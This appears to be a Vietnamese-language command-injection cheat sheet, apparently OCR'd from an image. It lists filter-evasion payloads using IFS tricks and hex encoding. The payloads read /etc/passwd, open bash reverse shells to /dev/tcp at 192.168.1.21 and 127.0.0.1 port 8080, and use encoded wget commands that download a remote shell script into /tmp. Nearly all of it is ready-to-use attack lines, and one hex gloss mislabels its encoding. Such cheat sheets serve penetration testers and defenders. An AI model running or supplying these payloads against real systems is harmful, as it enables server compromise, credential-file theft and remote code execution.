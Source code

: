 * Làm tổn hại tới ứng dụng, server chạy ứng dụng cũng như dữ liệu trên đó.

* Thực hiện SSRF.

* Remote Code Execution.

### a. Bypass without space

Read file on server
```sh
cat</etc/passwd

(cat,/etc/passwd)

cat${IFS}/etc/passwd

X=$'cat\x20/etc/passwd'&&$X

bash</etc/passwd

IFS=,;$(cat<<<cat,/etc/passwd)
```

Reverve Shell:

```sh
bash$IFS-i$IFS>&$IFS/dev/tcp/192.168.1.21/8080$IFS0>&1 

echo${IFS}"RCE"${IFS}&&bash${IFS}-i${IFS}>&${IFS}/dev/tcp/127.0.0.1/8080$IFS0>&1

sh</dev/tcp/127.0.0.1/8080

IFS=,;`bash<<<bash,-i,>&/dev/tcp/127.0.0.1/8080;0>&1
```

### b. Bypass characters filter via hex encoding

Read file on server

```sh
cat $(echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")

cat $(xxd -r -p <<< 2f6574632f706173737764)

cat $(xxd -r -ps <(echo 2f6574632f706173737764))
```

(Trong đó giá trị `\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x66` tương ứng với `/etc/passwd` sau khi được hex encoding).

Dowload reverse shell trên server:

```sh
$(xxd -r -p <<< 7767657420687474703a2f2f3132372e302e302e313a313231322f782e7368202d4f202f746d702f792e73680a)

$(xxd -r -ps <(echo 7767657420687474703a2f2f3132372e302e302e313a313231322f782e7368202d4f202f746d702f792e73680a))

$(echo -e "\x77\x67\x65\x74\x20\x68\x74\x74\x70\x3a\x2f\x2f\x31\x32\x37\x2e\x30\x2e\x30\x2e\x31\x3a\x31\x32\x31\x32\x2f\x78\x2e\x73\x68\x20\x2d\x4f\x20\x2f\x74\x6d\x70\x2f\x79\x2e\x73\x68\x0a")

```
